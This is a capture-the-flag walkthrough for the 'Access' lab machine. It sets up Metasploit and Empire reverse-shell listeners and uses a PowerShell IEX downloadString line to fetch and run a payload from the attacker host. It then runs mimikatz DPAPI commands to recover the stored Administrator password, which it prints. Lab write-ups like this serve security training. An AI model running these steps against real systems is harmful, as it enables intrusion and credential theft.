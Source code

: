 # Alternative way to exploit Access

## Privilege Escalation

After running the **Windows Enumeration Script**, it finds stored credentials for _Administrator_:
```markdown
cmdkey /list
```
```markdown
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can get the plain-text password with **mimikatz**, instead of using the _runas_ way.

Setup in **Metasploit**:
```markdown
msf6 > handler -H 10.10.14.2 -P 9003 -p windows/meterpreter/reverse_http
```

Setup listener in **Empire** for box:
```markdown
(Empire) > uselistener http

(Empire: listeners/http) > set Host http://10.10.14.2:9004
(Empire: listeners/http) > set BindIP 10.10.14.2
(Empire: listeners/http) > set Port 9004

(Empire: listeners/http) > execute
```

Setup listener in **Empire** for **Metasploit**:
```markdown
(Empire) > uselistener meterpreter

(Empire: listeners/meterpreter) > set Host http://10.10.14.2/9003
(Empire: listeners/meterpreter) > set Port 9003
(Empire: listeners/meterpreter) > execute
```

Powershell launcher code to copy into a file _(empire.ps1)_:
```markdown
(Empire: listeners) > launcher powershell http
```

Executing _empire.ps1_ on box and the **Empire listener** starts:
```markdown
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/empire.ps1')
```

Interact with the listener to start a **meterpreter shell**:
```markdown
(Empire) > interact ADT7GYXR
(Empire: ADT7GYXR) > injectshellcode meterpreter
(Empire: powershell/code_execution/invoke_shellcode) > set Payload reverse_http
```

Now the **Meterpreter shell** started and **mimikatz** can be used in there:
```markdown
msf6 > sessions -i 1

meterpreter > migrate 1760
meterpreter > load kiwi
```

The following files and information are needed from the box:
```markdown
SID of user:
- S-1-5-21-953262931-566350628-63446256-1001

Key file:
- C:\users\security\appdata\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580

Credential:
- C:\users\security\appdata\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290
```

Getting masterkey with **mimikatz**:
```markdown
meterpreter > kiwi_cmd '"dpapi::masterkey /in:0792c32e-48a5-4fe3-8b43-d93d64590580 /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller"'
```

After getting the masterkey and the SHA1 hash, it is possible to get the password of _Administrator_:
```markdown
meterpreter > kiwi_cmd '"dpapi::cred /in:51AB168BE4BDB3A603DADE4F8CA81290"'
```
```markdown
(...)
CredentialBlob: 55Acc3ssS3cur1ty@megacorp
(...)
```

The password of _Administrator_ is:
> 55Acc3ssS3cur1ty@megacorp
